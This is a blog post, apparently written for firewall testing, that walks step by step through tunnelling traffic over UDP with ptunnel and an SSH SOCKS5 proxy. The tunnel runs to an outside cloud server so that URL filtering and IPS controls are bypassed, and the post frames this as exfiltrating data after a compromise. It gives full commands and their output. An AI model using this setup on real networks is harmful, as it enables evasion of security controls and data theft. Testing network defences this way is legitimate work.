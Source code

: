 ```yaml
---
layout: post
title:  "Application Firewall Data Exfiltration over UDP (ptunnel)"
date:   2021-01-19 12:21:16 -0400
categories: exfiltration 
tags: gateway bypass
---
```

<p>
Once an environment has been compromised and the adversary finds some desirable data the data needs to be removed from the network. In this use case we will assume that UDP is being permitted egress by the firewall.
</p>

<p>
ptunnel creates a tunnel interface on a system and then allows you to create a UDP tunnel between a clien
t and the server.
</p>
<p>
The server will need to be on the outside of your DUT (Device Under Testing). The idea is that the client
 will establish a tunnel to the server and be able to bypass the rest of the controls (URL Filtering, IPS, etc) in the network that the client is behind.
</p>


<h3>Step 1 - Deploy the ptunnel Server</h3>


<p>
In this case the ptunnel server is running on a host in GCP. Make sure the firewall is permitting port 53, or whichever port you decide to use to get around the DUT.
</p>

<p>
ptunnel may already be installed, but if not;
</p>

<code>
  apt-get install ptunnel
</code>
<br>


<p>
Once installed we can start the server. In this case we are enabling the UDP flag because ptunnel's default behaviour is to use ICMP (which is super slow). The -v enables visibility into what's going on. And -x boom is a password being set which is also optional.
<p>

<pre>
root@sperciballi-iodine:/home/stephen# ptunnel -udp -v 4 -x boom
[dbg]: Password set - unauthenicated connections will be refused.
[inf]: Starting ptunnel v 0.72.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: UDP transport enabled.
[dbg]: Starting ping proxy..
[dbg]: Creating UDP socket..
[inf]: Ping proxy is listening in privileged mode.
</pre>

<h3>Step 2 - Deploy the ptunnel Client</h3>

<p>
From a host behind the DUT run the ptunnel client. There are Windows binaries if you prefer but Linux is what we are using.
</p>

<p>
ptunnel may already be installed, but if not;
</p>

<code>
  apt-get install ptunnel
</code>
<br>

<p>
Once installed we can start the client. In this case we are again enabling the UDP flag. The -p IP address is the servers public IP address. The -lp 8080 is specifying a local port to proxy traffic through, and the -da localhost is specifying localhost as the proxy (in some circumstances you may want to use a different local IP). The -dp 22 is the destination port on the remote end we will be sending traffic through. And the -x boom is again the corresponding password.
</p>

<pre>
┌──(root💀kali)-[/home/stephen]
└─# ptunnel -udp -p 35.196.116.250 -lp 8080 -da localhost -dp 22 -x boom
[inf]: Starting ptunnel v 0.72.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.
[inf]: UDP transport enabled.
[inf]: Incoming connection.
[evt]: No running proxy thread - starting it.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping tunnel to 127.0.0.1:22 due to inactivity.
[inf]: 
Session statistics:
[inf]: I/O:   0.14/  0.01 mb ICMP I/O/R:      212/      67/      40 Loss:  0.6%
</pre>



<h3>Step 3 - Setup a Proxy</h3>


<p>
From the client system we will now configure an SSH SOCKS5 proxy. This will send all of our traffic over an encrypted SSH tunnel, through the UDP tunnel established by ptunnel. The main reason for this is ease of use. You could also setup a basic HTTP proxy like squid on the ptunnel server side.
</p>

<p>
To start the proxy from the client we ssh, specify the local port of 8080, -C compresses traffic, -D 8081 specifies to use 8081 as the SOCKS5 port, and -da localhost -dp 22 says to ssh into localhost. It is important to note that because we are actually using port 8080 this command is ssh'ing into the ptunnel host so <b>remember to use the login for the ptunnel server and not actually localhost.</b>
</p>

<pre>
┌──(root💀kali)-[/home/stephen]
└─# ssh -i ./google_compute_engine -p 8080 -C -D 8081  stephen@localhost
Enter passphrase for key './google_compute_engine': 
Linux sperciballi-iodine 4.19.0-16-cloud-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
</pre>


<h3>Step 4 - Proxy Your Traffic</h3>

<p>
At this point we have essentially enabled a proxy within a proxy. Now we have to tell our client system software to use the proxy.
</p>

<p>
In your web browser preferences search for proxy. Then configure it to use a SOCKS5 proxy, specify localhost for the host and port 8081 (from step 3) for the port.
</p>

<p>
From here if you search for what's my IP you will find that the IP address is that of the public interface of the ptunnel server.
</p>

